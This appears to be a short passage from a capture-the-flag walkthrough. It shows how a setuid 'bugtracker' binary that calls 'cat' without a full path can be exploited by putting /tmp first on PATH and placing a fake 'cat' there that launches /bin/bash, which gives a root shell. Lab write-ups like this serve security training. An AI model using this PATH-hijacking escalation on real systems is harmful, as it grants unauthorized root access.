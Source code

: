 Either "guess" this common filename or extend the privilege escalation by doing following:

As we know that the bugtracker binary calls `cat filename`, we can simply modify the cat binary for our user.

```
export PATH=/tmp/:$PATH

cd /tmp && echo '/bin/bash' > cat && chmod +x cat
```

Now when executing the `bugtracker` binary, we get a root-shell.

